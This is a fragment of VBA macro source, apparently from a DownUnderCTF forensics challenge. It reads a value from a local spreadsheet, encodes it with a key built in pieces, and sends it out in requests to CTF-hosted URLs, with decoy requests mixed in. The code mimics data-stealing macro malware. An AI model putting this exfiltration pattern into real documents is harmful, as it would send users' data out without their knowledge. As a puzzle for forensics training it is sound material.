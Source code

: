 ```vb
    Dim U As String
    Dim V As String
    Dim W As String
    Dim X As String
    Dim Y As String
    Dim Z As String
    Dim I As Long
    N = importantThing()
    K = "Yes"
    S = "Mon"
    U = forensics(K)
    V = totalyFine(U)
    D = "Ma"
    J = "https://play.duc.tf/" + V
    superThing (J)
    J = "http://flag.com/"
    superThing (J)
    G = "key"
    J = "http://play.duc.tf/"
    superThing (J)
    J = "http://en.wikipedia.org/wiki/Emu_War"
    superThing (J)
    N = importantThing()
    Path = ThisWorkbook.Path & "\flag.xlsx"
    Set wb = Workbooks.Open(Path)
    Dim valueA1 As Variant
    valueA1 = wb.Sheets(1).Range("A1").Value
    MsgBox valueA1
    wb.Close SaveChanges:=False
    F = "gic"
    N = importantThing()
    Q = "Flag: " & valueA1
    H = "Try Harder"
    U = forensics(H)
    V = totalyFine(U)
    J = "http://downunderctf.com/" + V
    superThing (J)
    W = S + G + D + F
    O = doThing(Q, W)
    M = anotherThing(O, W)
    A = something(O)
    Z = forensics(O)
    N = importantThing()
    P = "Pterodactyl"
    U = forensics(P)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    T = totalyFine(Z)
    MsgBox T
    J = "http://downunderctf.com/" + T
    superThing (J)
    N = importantThing()
    E = "Forensics"
    U = forensics(E)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    
End Sub
Public Function doThing(B As String, C As String) As String
    Dim I As Long
    Dim A As String
```